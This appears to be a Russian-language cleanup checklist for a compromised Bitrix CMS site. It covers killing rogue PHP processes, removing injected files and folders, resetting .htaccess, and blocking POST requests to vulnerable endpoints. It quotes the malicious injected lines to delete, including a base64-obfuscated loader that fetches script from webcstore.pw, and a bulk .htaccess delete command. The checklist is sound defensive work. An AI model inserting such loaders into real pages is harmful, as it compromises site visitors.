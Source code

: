 
Внимание! Для большинства файлов изменяются права доступа на 444

1. Проверяем сервер на наличие лишних процессов, убиваем вредоносные (они генерируют вредоносный код). Команда — ps aux | grep php + команда — htop
2. Удаляем лишний код
	2.1 В корне сайта в `index.php` сверху вставляется вредоносный код - удаляем.
	2.2 В прологе, эпилоге на верху и внизу файла может создаваться вредоносный код. — удаляем
	2.3 В папке `/bitrix/admin/`, `/bitrix/tools/` и корне могут создаваться вирусные файлы по типу `8528de6012eb.php` — удаляем.
	2.4 В корне сайта могут создаватся три папки для WP структуры с префиксом `wp-....` их удаляем.
	2.5 В корне сайта может создаваться `admin.php`, его тоже удаляем.
	2.6 По мимо всего в корне сайта также могут быть сгенерированы и созданы файлы и папки не относящиеся к сайту, их чистим.
	2.7 Проверить `/bitrix/modules/main/bx_root.php` на наличие вредоносного кода (ФАЙЛИК ПРИКРЕПЛЕН).
	2.8 Желательно проверить `header/footer` на наличие "абракадабры".
	2.9 Проверить файлы в `/ajax/` на вредоносный код.
	2.10 Удалить файл если имеется — `bitrix/tools/spread.php`
3. Проверяем `htaccess` в корне на "зараженность" и наличие лишних `htaccess` в разделах. Если в разделах есть лишние файлы:
	3.1 Удаляем все `.htaccess`. Команда для linux: 
	```bash
	find ./ -name ".htaccess" -delete
	```
	3.2 Копируем все нужные `.htaccess`. файлы в папке.
	3.3 Восстанавливаем главный  `.htaccess`, если он был настроен.
4. Если к примеру при удалении файла, он появляется снова можно переименовать папку в которой лежит файл и протестить (идёт атака из вне сайта или процесс внутри битрикса).
5. Могут подтягиваться скрипты со сторонних сайтов (обычно вредоносный код лежит внизу файла):
	5.1`\bitrix\modules\main\include\prolog.php` — удаляем строку вида "echo "`<script src='https://webcstore.pw/jqueryui.js'></script>"`;"
	5.2 \bitrix\js\main\core\core.js — удаляем строку вида 	
	
	"s=document.createElement(`script`);s.src=atob(`aHR0cHM6Ly93ZWJjc3RvcmUucHcvanF1ZXJ5dWkuanM=`);document.head.appendChild(s);"
	
1. `\bitrix\components\bitrix\main.file.input\main.php` — странный файл (не на всех ядрах есть, предположительно только на взломанных) — Просто проверить наличие
========================================================================================
ЕСЛИ ОБНОВИТЬ БИТРИКС НЕВОЗМОЖНО:
* Часть функционала в админке может быть недоступна
* Дополнительные методы защиты в pdf


Вставляем код:
--------------------------------------------------------
<?if ($_SERVER['REQUEST_METHOD'] === 'POST') {
	header("Status: 404 Not Found");
	die();
};?>
--------------------------------------------------------
	В файлы, перед required:
		1. /bitrix/tools/upload.php
		2. /bitrix/tools/mail_entry.php
		3. /bitrix/modules/main/include/virtual_file_system.php
		4. /bitrix/components/bitrix/sender.mail.editor/ajax.php
		5. /bitrix/tools/vote/uf.php
		6. /bitrix/tools/html_editor_action.php
		7. /bitrix/admin/site_checker.php

========================================================================================
доп уязвимости:	
https://docs.google.com/document/d/1JEIF1rd84GhqkwNl1DOGFdlojTrYk_E6k-pozJ-GU6g/edit